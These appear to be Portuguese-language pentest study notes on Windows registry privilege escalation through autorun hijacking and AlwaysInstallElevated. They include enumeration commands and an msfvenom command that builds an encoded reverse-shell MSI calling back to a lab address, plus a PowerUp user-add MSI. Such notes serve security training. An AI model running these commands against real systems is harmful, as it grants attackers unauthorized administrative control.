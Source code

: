 ___

# Registry Escalation

## Autoruns

- Procurar algo que roda automaticamente e se tiver permissão no executável, da pra escalar o priv
- Rodar o `autorun.exe`
- Da pra enumerar o registro para encontrar autoruns `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

```
# Abrir o autorun.exe e ir para "login"

accesschk64.exe -wvu "C:\Program Files\Autorun Program"
# Rodar o accesschk64.exe, com o w sendo write, o v é verbose e o u é ignorar os erros

-accepteula
# Se for a primeira vez que usa o accesschk 

. .\PowerUp.ps1

Invoke-AllChecks
# Também da pra encontrar com o powerup

# Criar uma shell com msfvenom e colocar o nome de program.exe
# Transferir a shell para C:\Program Files\Autorun Program\program.exe

```


## Always Install Elevated

- Permite que a instalação do msi seja feita de forma administrativa
- Os dois registradores tem que estar habilitados para funcionar

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
# Também da pra verificar com PowerUp

reg query HKCU\Software\Policies\Microsoft\Windows\Installer

msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.0.2.4 LPORT=1337 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi

. .\PowerUp.ps1

Write-UserAddMSI

msiexec /i UserAdd.msi

msiexec /i AlwaysInstallElevated.msi
# Ou msiexec /quiet /qn /i "UserAdd.msi"

```
